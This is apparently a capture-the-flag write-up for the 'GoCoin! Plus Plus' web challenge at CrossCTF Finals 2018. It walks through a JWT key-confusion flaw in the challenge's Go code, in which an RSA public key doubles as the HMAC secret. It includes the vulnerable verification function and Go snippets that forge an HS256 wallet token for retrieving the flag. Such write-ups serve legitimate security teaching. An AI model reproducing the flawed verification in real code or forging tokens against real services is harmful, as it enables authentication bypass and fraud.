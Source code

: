 
# CrossCTF Finals 2018: GoCoin! Plus Plus (web)

> I thought blockchain was cool, so I made my own coin.
> 
> GoCoin! Plus Plus is the forked and improved version of GoCoin! Plus.
> 
> Update: I've improved it! More secures and with real cryptos, it's a true cryptocoin now! Update: Stupid me wrote a broken challenge, now its really fixed!
> 
> http://ctf.pwn.sg:1389
>
> Creator - quanyang (@quanyang)

## Challenge

So this is the real challenge, fixed by the organisers. TL; DR: 

```diff
54c54
< 	walletString := this.Ctx.GetCookie("wallet")
---
> 	walletString := this.Ctx.GetCookie("wallet_2")
...
92c92
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
141c141
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
```

So this makes the previous exploit unexploitable. Time to look back at the JWT implementation. 

My familiarity with Go made the [code](https://github.com/NUSGreyhats/crossctf-2018-challenges/blob/master/finals/challenges/GoCoin!%20Plus%20Plus/service/src/main.go) 2x easier to read. 

Because of the hints about crypto being used, it pointed us pretty clearly at the JWT code. If you didn't know yet, JWS stands for JSON Web Tokens. It's a authorization token that can contain data, and makes token validation stateless other than validation of the signature attached using PKI.

It was pretty well-know that JWT had an issue previously where things with `alg: none`. It's even stated in a banner on the JWT website. So, I took a look at the `ParseWallet` function.

```go
func ParseWallet(myToken string, myKey []byte) (float64, float64, error) {
	token, err := jwt.Parse(myToken, func(token *jwt.Token) (interface{}, error) {
		if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
			key, err := jwt.ParseRSAPublicKeyFromPEM(myKey)
			return key, err
		}
		return myKey, nil
	})
	if err == nil && token.Valid {
...
```

From this chunk of code, you can see that the program checks for tokens that are *not* HMAC and then parses the PEM public key. But, if the token is a HMAC, it directly returns the key! This is especially obvious if you compare it to the [example code for HMAC](https://godoc.org/github.com/dgrijalva/jwt-go#example-Parse--Hmac) in the documentation for `github.com/dgrijalva/jwt-go`, and [notices](https://github.com/dgrijalva/jwt-go#compliance) in the project README. 

Since the plaintext public key is being used to perform HMAC comparison rather than validating RSA signatures, we can forge our own tokens because we know the HMAC secret, which is the `[]byte` publicKey. 

So let's write a program to create this HMACed instead of RSAed token. Oh wait, it's already written by the challenge author! Just need to change one tiny bit. 

```go
token := jwt.New(jwt.GetSigningMethod("HS256"))
```

Then now I can do:

```go
myKey := `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCyg+EcZOSLYXqdA0Gdx6hE0PFY
GshbSxHwBbZ0Ivw41OCD447WtiTmBKWhYkyZIW1uF2G0YpifP9CGZgIHhW6jPUwB
u1ewHy0ch+GQeMleaVGqEOsAd65DAXi2TSCZLl66zWy0enQ/SFkm9OTTGYR0e0hM
DFqKsA30lPd0pHbSNwIDAQAB
-----END PUBLIC KEY-----
` // This newline is important
tokenString, err := Wallet(10000, 10000, []byte(myKey))
fmt.Println(err, tokenString)
_, _, err := ParseWallet(tokenString, myKey)
fmt.Println(err) // nil is SUCCESS! wohoo
```

[Here's the full code](gocoin2jwt.go). 

Now I've got a valid token, I can simply perform the request to /flag with the token set inside the cookie. Many ways to do than, including using DevTools. 

